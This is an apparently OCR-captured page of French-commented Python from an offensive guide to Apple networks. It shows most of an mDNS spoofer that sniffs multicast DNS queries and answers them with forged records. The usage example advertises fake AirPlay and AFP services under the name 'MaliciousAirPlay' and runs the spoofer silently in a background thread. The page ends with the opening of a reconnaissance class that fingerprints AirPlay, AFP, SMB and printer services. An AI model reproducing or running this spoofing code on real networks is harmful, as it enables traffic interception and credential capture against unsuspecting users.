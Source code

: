 ```python
            
    def start_spoofing(self):
        """Démarre l'interception et le spoofing mDNS"""
        self.running = True
        
        def packet_handler(packet):
            if not self.running:
                return
                
            if packet.haslayer(DNS) and packet[UDP].dport == 5353:
                if packet[DNS].qr == 0:  # Query
                    query_name = packet[DNS].qd.qname.decode('utf-8').rstrip('.')
                    
                    # Vérifier si on doit spoofé ce service
                    for service_name, service_info in self.spoofed_services.items():
                        if service_info['type'] in query_name:
                            print(f"[*] Spoofing query for {query_name}")
                            response = self.craft_mdns_response(packet, service_name)
                            if response:
                                send(response, iface=self.interface, verbose=0)
        
        print("[+] Démarrage du spoofing mDNS...")
        sniff(iface=self.interface, filter="udp port 5353", prn=packet_handler)
    
    def stop_spoofing(self):
        """Arrête le spoofing"""
        self.running = False
        print("[+] Arrêt du spoofing mDNS")

# Exemple d'utilisation
spoofer = MDNSSpoofer()
spoofer.create_fake_service("MaliciousAirPlay", "_airplay._tcp", "192.168.1.100", 62078)
spoofer.create_fake_service("FakeAFP", "_afpovertcp._tcp", "192.168.1.100", 548)

# Démarrage en arrière-plan
spoofing_thread = threading.Thread(target=spoofer.start_spoofing)
spoofing_thread.daemon = True
spoofing_thread.start()
```

#### Outils de reconnaissance réseau Apple sophistiqués

```python
#!/usr/bin/env python3
# Framework de reconnaissance Apple avancé
import subprocess
import json
import time
from concurrent.futures import ThreadPoolExecutor
from scapy.all import *

class AdvancedAppleRecon:
    def __init__(self):
        self.discovered_devices = {}
        self.service_fingerprints = {
            '_airplay._tcp': {'ports': [62078], 'protocol': 'AirPlay'},
            '_afpovertcp._tcp': {'ports': [548], 'protocol': 'AFP'},
            '_smb._tcp': {'ports': [139, 445], 'protocol': 'SMB'},
            '_http._tcp': {'ports': [80, 443], 'protocol': 'HTTP'},
            '_printer._tcp': {'ports': [631], 'protocol': 'IPP'}
        }
    
    def correlate_device_info(self, ip_address):
        """Corrèle les informations de multiple sources"""
```